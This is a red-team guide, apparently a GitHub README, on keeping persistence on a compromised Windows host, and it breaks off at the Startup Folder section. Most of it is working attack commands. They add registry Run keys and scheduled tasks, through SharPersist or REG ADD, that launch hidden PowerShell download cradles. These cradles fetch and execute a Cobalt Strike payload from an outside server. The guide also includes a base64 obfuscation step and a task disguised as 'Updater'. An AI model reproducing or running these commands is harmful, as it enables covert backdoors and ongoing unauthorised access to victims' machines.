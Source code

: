 # Methods of regaining or maintaining access to a compromised host

Following methods can be used to regain access to a compromised host.

#### <b>1.</b> <a href="https://github.com/incredibleindishell/Red_Team_Op/blob/main/Host_persistance/README.md#1-registry-autoruns-1">Registry Autoruns</a>
#### <b>2.</b> <a href="https://github.com/incredibleindishell/Red_Team_Op/blob/main/Host_persistance/README.md#2-scheduled-tasks-1">Scheduled Tasks</a>
#### <b>3.</b> <a href="https://github.com/incredibleindishell/Red_Team_Op/blob/main/Host_persistance/README.md#3-startup-folder-1">Startup Folder</a>

To create the payloads for above mentioned scenarios, user can use SharPersist tool from below mentioned Github Repo:

https://github.com/mandiant/SharPersist

SharPersist allows a user to create payload for different backdooring techniques. 

It supports following options/arguments 

    -t: Persistence technique
    -c: Command to execute
    -a: Arguments of command to execute (if applicable)
    -f: File to create/modify
    -k: Registry key to create/modify
    -v: Registry value to create/modify
    -n: Scheduled task name OR Service name
    -m: Method(add, remove, check, list)
    -o: Optional add-ons
    -h: Help page


#### 1. Registry Autoruns
---
To add the registry entry, either use Shapersist or do it manually. 

<b>Using SharPersist:</b>
    
a) Current user: 

Below mentioned command will add a new registry entry under "current user" registry `(HKEY_CURRENT_USER)`. When user will login to the machine, this regsitry key will execute the command which will make an HTTP request to the Cobalt Strike server to download the PowerShell payload and will execute it.

    SharPersist.exe -t reg -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden IEX ((new-object net.webclient).downloadstring('http://192.168.56.104/ps.ps1'))" -k "hkcurun" -v "b0x" -m add

b) Local Machine <b>(Admin privilege required)</b>: 

Below mentioned command will add a new registry entry under "Local Machine" registry `(HKEY_LOCAL_MACHINE)`. When user will login to the machine, this regsitry key will execute the command which will make an HTTP request to the Cobalt Strike server to download the PowerShell payload and will execute it.

    SharPersist.exe -t reg -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden IEX ((new-object net.webclient).downloadstring('http://192.168.56.104/ps.ps1'))" -k "hklmrun" -v "b0x" -m add

<b>Manually:</b>
    
a) Current user: 

Below mentioned command will add a new registry entry under "current user" registry `(HKEY_CURRENT_USER)`. When user will login to the machine, this regsitry key will execute the command which will make an HTTP request to the Cobalt Strike server to download the PowerShell payload and will execute it.

    REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run  /t REG_SZ  /v box2 /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden IEX ((new-object net.webclient).downloadstring('http://192.168.56.104/ps.ps1'))"

b) Local Machine <b>(Admin privilege required)</b>: 

Below mentioned command will add a new registry entry under "Local Machine" registry `(HKEY_LOCAL_MACHINE)`. When user will login to the machine, this regsitry key will execute the command which will make an HTTP request to the Cobalt Strike server to download the PowerShell payload and will execute it.

    REG ADD HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run  /t REG_SZ  /v box2 /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden IEX ((new-object net.webclient).downloadstring('http://192.168.56.104/ps.ps1'))" 


    
#### 2. Scheduled Tasks
---

In local machine, open PowerShell console and execute below mentioned commands to generate the base64 encoded text of the Cobalt strike's PowerShell based beacon payload:

    PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://cobalt_strike_server/poershell_payload"))'
    PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

In Cobalt strike beacon console, execute below mentioned command (replace text Base_64_encoded_payload_goes_here with the output generated in the above step) to add a new scheduled task with name `b0x` which will execute after every one hour:
    
    execute-assembly C:\Path_to_sharpersist\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc Base_64_encoded_payload_goes_here" -n "b0x" -m add -o hourly

<b>Example:</b>
In below mentioned example, adding a task which will make an HTTP request to Teamserver on URL `http://192.168.56.104/ps.ps1` and will execute the PowerShell payload whenever user will logon to the machine:

     SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden IEX ((new-object net.webclient).downloadstring('http://192.168.56.104/ps.ps1'))" -n "Updater" -m add -o logon


#### 3. Startup Folder
---

